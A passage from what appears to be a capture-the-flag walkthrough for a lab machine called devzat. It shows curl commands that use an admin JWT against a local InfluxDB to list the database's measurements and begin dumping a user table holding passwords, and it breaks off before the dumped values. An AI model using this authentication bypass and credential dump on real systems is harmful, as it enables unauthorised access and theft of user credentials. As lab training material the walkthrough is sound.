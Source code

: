 ```
                    ]
                }
            ]
        }
    ]
}

```

#### Enumerate with Auth

Now that I’m authenticated, I can enumerate the DB. The query above showed two DBs. `_internal` is part of the database itself, so I’ll start on `devzat`. Tables are called measurements in Influx (I’ll move the token into a variable for readability):

```

patrick@devzat:~$ token="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjY2MDM0NzE2fQ.fd4oRbG8JP0j2uPtYP3dVUSAewNxKxbcYyjhcmYo1I"
patrick@devzat:~$ curl -G --data-urlencode "q=SHOW Measurements" -d "db=devzat" localhost:8086/query?pretty=true -H "Authorization: Bearer $token"
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "name": "measurements",
                    "columns": [
                        "name"
                    ],
                    "values": [
                        [
                            "user"
                        ]
                    ]
                }
            ]
        }
    ]
}

```

Only one table, `user`.

I’ll dump all the data, making sure to put the table name in `"` which need to be escaped:

```

patrick@devzat:~$ curl -G --data-urlencode "q=select * from \"user\"" -d "db=devzat" localhost:8086/query?pretty=true -H "Authorization: Bearer $token"
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "name": "user",
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "values": [
```